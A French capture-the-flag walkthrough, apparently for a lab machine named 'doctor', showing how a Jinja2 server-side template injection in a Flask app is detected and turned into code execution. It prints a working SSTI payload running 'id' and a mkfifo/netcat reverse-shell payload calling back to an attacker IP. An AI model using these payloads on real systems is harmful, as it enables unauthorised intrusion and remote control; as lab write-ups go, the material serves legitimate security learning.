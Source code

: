 ![[80-vhost-sourcecode.png]]

Si on reach le path, on obtient une page blanche.

![[80-vhost-blank.png]]

Cependant si on regarde le code source, on peut voir une réponse en XML

![[80-vhost-xml.png]]

Framework Flask + valeurs réfléchies dans la page = SSTI, on peut utiliser la [méthodologie](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology) de PayloadsAllTheThings pour identifier la technologie (Jinja2, Twig pour PHP etc.) ainsi que la bonne syntaxe pour le payload.

![[80-ssti-method.png]]

Mais dans un premier temps, on peut confirmer la présence de la vulnérabilité SSTI à l'aide du payload [polyglot](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#detection), dans la majorité des cas, ce payloads va déclencer une erreur en présence d'une SSTI.

![[80-ssti-poly.png]]

On obtient bien un code erreur 500 qui semble confirmer notre théorie. Maintenant on va déterminer quelle syntaxe utiliser pour obtenir notre RCE.

![[80-ssti-t3.png]]

La première syntaxe ne fonctionne pas, alors on passe à la suivante

![[80-ssti-t4.png]]

Cette syntaxe fonctionne, on a bien le résultat de la multiplication `36` dans le code source entre les balises title. On peut continuer afin de confirmer qu'il s'agit bien de Jinja2

![[80-ssti-t5.png]]

Et ca fonctionne également, on obtient 7 fois la valeur indiquée dans la chaîne de caractères, à savoir `7777777`. Maintenant on peut passer à l'exploitation en utilisant la fonction `os.popen()` pour afficher la commande `id`

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

![[80-ssti-rce.png]]

Il ne reste plus qu'à modifier la commande id par un reverse shell mkfifo afin d'obtenir un reverse shell sur la machine en tant qu'utilisateur `web` sur la machine `doctor`.

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.53 9001 >/tmp/f').read() }}`

![[80-ssti-rev.jpeg]]

## Mouvement latéral - shaun
